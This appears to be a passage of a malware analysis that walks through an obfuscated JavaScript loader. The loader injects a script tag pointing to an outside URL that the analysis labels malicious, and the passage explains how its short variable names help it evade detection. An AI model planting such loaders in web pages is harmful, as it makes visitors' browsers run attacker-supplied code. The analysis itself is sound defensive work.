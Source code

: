 
#### Line 2-3: Function Declaration & Parameter Mapping

```javascript
(function(f,i,u,w,s){
    // Function body here
})(document,'script','https://content-website-analytics.com/script.js');
```

**Pattern:** Immediately Invoked Function Expression (IIFE)  
**Structure:** `(function(params){body})(arguments)`

**Parameter Mapping:**

| Short Name | Actual Value | Purpose |
|------------|--------------|---------|
| `f` | `document` | DOM document object |
| `i` | `'script'` | HTML tag name to create |
| `u` | `'https://content-website-analytics.com/script.js'` | Malicious script URL |
| `w` | `undefined` | Will become the new script element |
| `s` | `undefined` | Will become the reference element |

**Why Short Names?**
- **Obfuscation:** Makes code harder to read at a glance
- **Size Reduction:** Smaller payload (195 bytes vs ~400 bytes if readable)
- **Speed:** Insignificant performance benefit
- **Evasion:** Harder to detect with simple pattern matching

**Deobfuscated Version:**
```javascript
(function(document, tagName, scriptUrl, newScript, referenceScript) {
    // Function body
})(document, 'script', 'https://content-website-analytics.com/script.js');
```

---

#### Line 4: Create Script Element

```javascript
w=f.createElement(i);
```

**Deobfuscated:**
```javascript
newScript = document.createElement('script');
```

**What It Does:**
1. Calls `document.createElement('script')`
2. Creates a new `<script>` HTML element in memory
3. Element is NOT yet added to the page (invisible to user)
4. Stores reference in variable `w`
